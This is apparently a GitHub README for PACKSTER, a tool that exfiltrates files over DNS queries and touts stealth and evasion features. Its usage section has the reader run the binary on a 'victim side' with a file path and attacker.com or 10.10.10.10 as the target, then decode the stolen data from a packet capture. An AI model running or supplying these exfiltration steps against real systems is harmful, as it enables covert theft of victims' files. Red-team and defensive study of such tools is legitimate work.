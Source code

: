 # PACKSTER

## Overview
PACKSTER is a powerful exfiltration tool designed for demonstrating efficient data exfiltration and security testing. It allows for controlled and stealthy data exfiltration by utilizing DNS queries, making it a valuable tool for cybersecurity professionals and penetration testers.

## Features
- Fast and reliable data exfiltration
- Supports multiple transport methods
- Customizable payload handling
- Stealth mode for evasion techniques
- Logging and error handling for debugging

[![Packster Demo](https://img.youtube.com/vi/r4g577TrCSw/maxresdefault.jpg)](https://www.youtube.com/watch?v=r4g577TrCSw)

## Installation
### Prerequisites
Ensure you have Python installed on your system. PACKSTER requires Python 3.x.

### Clone the Repository
```bash
git clone https://github.com/yourusername/packster.git
cd packster
```

### Get the [release binaries](https://github.com/Sayan690/Packster/releases/)

OR

### Compile it locally

Requirements - pyinstaller

#### Clone the repository
```bash
git clone https://github.com/yourusername/packster.git
cd packster
```

```bash
pyinstaller -F packety.py --icon=resources/packster.ico
```

### Install Dependencies
```bash
pip install -r requirements.txt
```

## Usage
To run PACKSTER, follow these steps:

- Start the listener on the attacker side

```bash
tcpdump -i any -w capture.pcap
```

- Transfer the [packster binary](https://github.com/Sayan690/Packster/releases/) to the victim side and execute

```bash
.\\packster.exe -f C:\\Path\\To\\File -a attacker.com

./packster.exe -f /Path/To/File -a 10.10.10.10
```

- After the process exits printing "done.", exit out from tcpdump, and run `filtrz.py`

```bash
python3 filtrz.py -a attacker.com -c capture.pcap -o output_file_name.txt
```

## Disclaimer
PACKSTER is intended for educational and security testing purposes only. The author is not responsible for any misuse of this tool.

## Author
Developed by **Sayan Ray** [@BareBones90]

## License
This project is licensed under the MIT License - see the LICENSE file for details.
